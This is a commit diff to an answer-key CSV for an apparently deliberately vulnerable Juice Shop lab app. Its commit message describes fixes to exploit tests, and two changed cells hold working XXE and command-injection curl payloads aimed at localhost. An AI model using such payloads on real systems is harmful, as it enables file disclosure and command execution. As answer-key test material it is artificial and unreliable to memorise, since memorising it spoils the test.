

Before and after one commit to matt122333/juice-shop-annex, a CSV file: answer-key/vulnerabilities.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Fix exploit test correctness issues found during verification
Fixed 7 issues in the new test suite and CSV:
- INJ-22: Changed from integer overflow (JS doesn't wrap) to improper input
  validation (negative amount drains balance), CWE-190 -> CWE-20
- INJ-24: Prototype pollution via Object.assign not visible in JSON response
  (inherited props not serialized); test now checks config object is returned
- INJ-29: require() not available in new Function scope; test now uses
  process.env which is accessible
- INJ-40: ; inside double-quoted LDAP arg is not command injection; test now
  uses $(id) which is evaluated inside double quotes
- INJ-46: this.id undefined in new Function without binding; test now uses
  1===1 which returns all products
- INJ-49: require() not available in new Function scope; test now uses
  process.env for verification
- INJ-21: ReDoS with 30 chars takes too long (>30s); reduced to 27 chars (~4s)
- INJ-38/65: XXE tests now use temp files instead of /etc/hostname
- Removed TypeScript : any annotations from plain JS test file
- Updated original INJ rows: 15/15 -> 65/65 in Validated column
- Updated original DEP rows: removed 10/10 npm audit reference
- All CSV reproduction commands updated to match test fixes

```diff
--- a/answer-key/vulnerabilities.csv
+++ b/answer-key/vulnerabilities.csv
-J165 (Manual_Reproduction): curl -X POST http://localhost:3000/rest/vendor/soap-update -H 'content-type: application/xml' -d '<?xml version="1.0"?><!DOCTYPE r [<!ENTITY x SYSTEM "file:///etc/hostname">]><r><orderId>&x;</orderId></r>' -> orderId field contains the server hostname.
+J165 (Manual_Reproduction): echo SECRET > /tmp/xxe_test.txt ; curl -X POST http://localhost:3000/rest/vendor/soap-update -H 'content-type: application/xml' -d '<?xml version="1.0"?><!DOCTYPE r [<!ENTITY x SYSTEM "file:///tmp/xxe_test.txt">]><r><orderId>&x;</orderId></r>' -> orderId field contains the file contents (SECRET).
-J167 (Manual_Reproduction): curl "http://localhost:3000/rest/tax/lookup?user=x;id&filter=objectClass=*" -> response output field contains id command output.
+J167 (Manual_Reproduction): curl "http://localhost:3000/rest/tax/lookup?user=x%24(id)&filter=objectClass=*" -> response output field contains id command output (e.g. uid=...). The $() is evaluated by the shell inside the double-quoted LDAP filter argument.
```
Also changed, not shown: 38 edited cells elsewhere in this file, 1 other file.
